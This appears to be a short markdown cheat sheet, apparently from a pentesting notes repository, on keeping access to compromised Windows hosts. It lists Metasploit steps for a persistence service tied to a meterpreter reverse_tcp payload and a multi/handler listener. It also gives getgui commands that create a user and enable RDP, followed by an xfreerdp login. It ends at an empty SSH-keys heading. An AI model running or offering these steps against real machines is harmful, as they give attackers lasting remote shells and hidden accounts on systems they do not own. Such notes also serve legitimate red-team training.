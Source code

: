 # Establishing Persistence in Windows
After gaining a foothold, you will need to establish persistence on the target

1. Gain access to meterpreter on host
2. Background session

Module: **exploit/windows/local/persistence_service**  
This will create a persistant service that is paired with meterpreter payload  
- remote_exe_name
- Remote_exe_path
- Service_Name -- most important. May only need this one
- set payload -- can only be windows/meterpreter/reverse_tcp

1. Setup Multi Handler - ```use multi/handler```
2. set Payload -- ```set payload windows/meterpreter/reverse_tcp```
3. set LHOST
4. run
You should immediately receive a meterpreter session

# Windows RDP Persistence
1. Enable RDP using Metasploit module  OR
2. Create user and enable RDP-- ```run getgui -e -u (username) -p (password)```
3. login -- ```xfreerdp /u:username /p:password /v:(target IP)```

# Persistence Va SSH keys

